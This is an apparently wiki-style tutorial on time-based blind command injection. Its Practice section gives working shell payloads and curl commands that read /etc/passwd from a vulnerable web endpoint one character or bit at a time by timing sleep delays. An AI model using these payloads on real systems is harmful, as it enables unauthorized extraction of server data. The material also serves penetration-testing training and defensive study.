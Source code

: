 ```yaml
---
title: 'Time-Based Data Exfiltration: Techniques & Execution'
description: Learn to exfiltrate data via command injection using time delays in web
  applications.
keywords:
- time-based data exfiltration
- command injection
- timing attack
- sleep command
- data extraction
- shell commands
- web application security
---
```


# Time Based Data Exfiltration

## Context

Time-based data exfiltration is an advanced technique used in offensive cybersecurity to extract sensitive data through subtly measured response delays. This method is particularly potent when exploiting command injection vulnerabilities in web applications, as it allows attackers to infer information bit by bit or character by character by injecting commands that manipulate server response times. This article assumes a working knowledge of timing attacks, data exfiltration methods, and command injection techniques.

## Theory

### Principles of Time-Based Data Exfiltration via Command Injection

Time-based data exfiltration encodes information in response delays caused by injected commands. At its core, this technique involves sending payloads that conditionally delay the server's response based on the data being targeted. By observing these response times, an attacker can reconstruct sensitive information without producing visible errors or logs that might alert system administrators.

The process follows a clear attack sequence: inject commands that include logical conditions specific to desired data values. When a condition evaluates as true, the server is instructed to delay its response. Repeat this process iteratively to extract each bit or character of the sensitive information.

### Timing Mechanisms and Shell Commands

A critical part of this process relies on the use of specific shell commands:

- The `sleep` command pauses execution for a given duration, creating intentional and measurable delays. This becomes an integral part of the payload for timing attacks.
- The `cut` command helps in extracting specific characters or fields from output, thus enabling precision in data leaks.

By combining `sleep` with conditional logic in shell expressions, attackers can systematically extract data, either by individual bits or complete characters.

### Time-Based Boolean Exfiltration Logic

To bypass filters and inject conditional delays, attackers use shell constructs such as `$(...)`, backticks, `&&`, and `||`. These allow for sophisticated boolean logic and conditional operations. During an attack, the workflow can be visualized as follows:

```mermaid
flowchart TD
    A[Inject Command] --> B{Condition True?}
    B -- Yes --> C[Sleep]
    B -- No --> D[No Delay]
    C --> E[Measure Response Time]
    D --> E
```

This process involves testing a data condition — if true, a delay is introduced, otherwise, the server responds immediately. By carefully measuring these response times, the attacker can infer the data stored on the server.

## Practice

### Character-by-Character Time-Based Exfiltration via Command Injection

To execute a character-by-character data extraction:

- **Identify a Vulnerable Command Injection Point**: Discover a location within the web application that is susceptible to command injection. Assume readers have the skills to identify such points manually or through automated scanning tools.
  
- **Inject the Payload**: 
  ```bash
  $(if [ "$(cut -c1 /etc/passwd)" = "r" ]; then sleep 5; fi)
  ```

  This payload checks if the first character of `/etc/passwd` is ‘r’; if so, the server sleeps for a specified time.

- **Send the Payload**:
  ```bash
  curl -X POST -d 'input=$(if [ "$(cut -c1 /etc/passwd)" = "r" ]; then sleep 5; fi)' http://target-app/vuln-endpoint
  ```
  Use curl to dispatch this payload to the endpoint known to be vulnerable.

- **Measure Response Time**: Monitor the response duration. A delay indicates that the condition was true and the character was correctly guessed.

Repeat this process for each character position and potential value to gradually reconstruct the sensitive information.

### Binary (Bitwise) Time-Based Exfiltration via Command Injection

For a more efficient bitwise extraction:

- **Target a Specific Character**: Focus on extracting ASCII values bit-by-bit.

- **Inject a Bitwise Payload**:
  ```bash
  $(char=$(cut -c1 /etc/passwd); if [ $(( ($(printf '%d' "'$char'") >> 6) & 1 )) -eq 1 ]; then sleep 5; fi)
  ```

  This payload checks if the 7th bit of the first character is set, sleeping if true.

- **Send the Payload**:
  ```bash
  curl -X POST -d 'input=$(char=$(cut -c1 /etc/passwd); if [ $(( ($(printf '%d' "'$char'") >> 6) & 1 )) -eq 1 ]; then sleep 5; fi)' http://target-app/vuln-endpoint
  ```
  Dispatch this through a command line to evaluate timing differences and determine bit values.

By iteratively applying these methods, sensitive data can be extracted accurately without evident system errors or logs.

## Tools

- **curl**
  
- **Burp Suite**
  
- **ffuf**